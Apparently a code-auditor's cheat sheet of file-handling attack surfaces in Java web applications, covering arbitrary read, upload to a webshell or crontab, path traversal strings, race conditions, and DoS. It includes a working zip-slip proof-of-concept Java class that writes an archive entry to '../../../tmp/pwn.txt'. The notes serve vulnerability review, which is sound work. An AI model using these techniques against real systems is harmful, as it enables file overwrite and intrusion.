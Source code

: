## Read
- Arbitrary file read
  - physical path
  - configure files
    - server
    - application
  - source codes
    - war/jar
    - zip/rar
  - other
    - db
    - key

## Upload
- Arbitrary file write/upload
  - webshell
  - replace javaagent.jar, jar in classpath
  - System file: related to [ATT&CK]()
    - crontab
    - .profile
  - key configure file
    - indirect control file content
- Cross directory: path splice user controlled file-name without checking or filter
  - contains(. / .. / %00 / ../ / ..\ /)
- Race Condition
  - file delete and can be access temporarily
- several processes
  - step1 upload and step2 modify
- DoS
  - path init: should be path but replace with a file
  - big size

## Import/
Trace the file parse logic,

## Delete
- Arbitrary
  - DoS
- 

## Move
  Guess the meaning of parameter in the request body, maybe a path name or other:
- overwrite important file to DoS
- move sensitive file and read
- upload file and move to web directory: jar/jsp


## Decompress
```
input = RequestPram(file);    # file = ../../../../tmp/poc.txt
File file = path + input; 
new ZipEntry(file);
```
Exploit
```
import java.io.File;
 import java.io.FileOutputStream;
 import java.util.zip.ZipEntry;
 import java.util.zip.ZipOutputStream;
 public class ZipExp { public static void main(String[] args) throws Exception { StringBuilder sb = new StringBuilder();
 sb.append("just a test");
 File f = new File("D:\\exp.zip");
 ZipOutputStream out = new ZipOutputStream(new FileOutputStream(f));
 ZipEntry e = new ZipEntry("../../../../../../../../../../../../../../../../../../../../tmp/pwn.txt");
 out.putNextEntry(e);
 byte[] data = sb.toString().getBytes();
 out.write(data, 0, data.length);
 out.closeEntry();
 out.close();
 } }
```

## Combine
- business logic
- sensitive function
  - execute script
  - 

## Function
### Archive
- ZipEntry.getName();
- request.getFileName.getOriginalFileName();


### xlsx
- XMLReader.setFeture
- 
